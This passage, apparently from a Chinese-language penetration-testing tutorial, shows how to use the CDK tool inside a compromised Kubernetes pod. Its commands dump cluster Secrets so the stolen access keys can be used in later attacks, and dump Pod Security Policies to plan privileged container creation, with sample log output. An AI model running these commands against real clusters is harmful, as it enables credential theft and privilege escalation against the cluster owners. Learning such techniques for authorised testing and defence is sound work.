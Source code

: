 ### Secret 类

K8s Secrets 用于存储敏感数据，从 Secrets 中获取的 AK 及通信凭证可用户后续渗透中从外部或云产品 API 窃取信息：

```plain
#命令格式
./cdk run k8s-secret-dump (auto|<service-account-token-path>)

#使用实例
./cdk run k8s-secret-dump auto
```

[![](assets/1701826061-1799cda5d905935dd35dd84708c81f00.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025164428-b51a18e8-7312-1.png)

### 安全策略

对于已经获取了 kubeconfig 或 sa 账号权限，进而想要创建特殊配置的容器，但是受到了 K8s Pod Security Policies 的限制时可以使用这个 Exploit 获取 Pod Security Policies 的规则信息

```plain
#命令格式
./cdk run k8s-psp-dump (auto|<service-account-token-path>

#使用实例
./cdk run k8s-psp-dump auto
2021/03/24 22:15:58 getting K8s api-server API addr.
    Find K8s api-server in ENV: https://ip:8443
2021/03/24 22:15:58 trying to dump K8s Pod Security Policies with local service-account: token
2021/03/24 22:15:58 requesting  /apis/policy/v1beta1/podsecuritypolicies
2021/03/24 22:15:58 dump Pod Security Policies success, saved in:  k8s_pod_security_policies.json
2021/03/24 22:15:58 requesting  /api/v1/namespaces/default/pods
2021/03/24 22:15:58 K8S Pod Security Policies rule list:
2021/03/24 22:15:58 rule { securityContext.hostPID: true } is not allowed.
2021/03/24 22:15:58 rule { securityContext.hostIPC: true } is not allowed.
2021/03/24 22:15:58 rule { volumes[0].hostPath.pathPrefix: \"/proc\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[1].hostPath.pathPrefix: \"/dev\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[2].hostPath.pathPrefix: \"/sys\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[3].hostPath.pathPrefix: \"/\" } is not allowed.
2021/03/24 22:15:58 rule { containers[0].securityContext.capabilities.add: \"SYS_ADMIN\" } is not allowed.
2021/03/24 22:15:58 rule { containers[0].securityContext.capabilities.add: \"SYS_PTRACE\" } is not allowed.
```

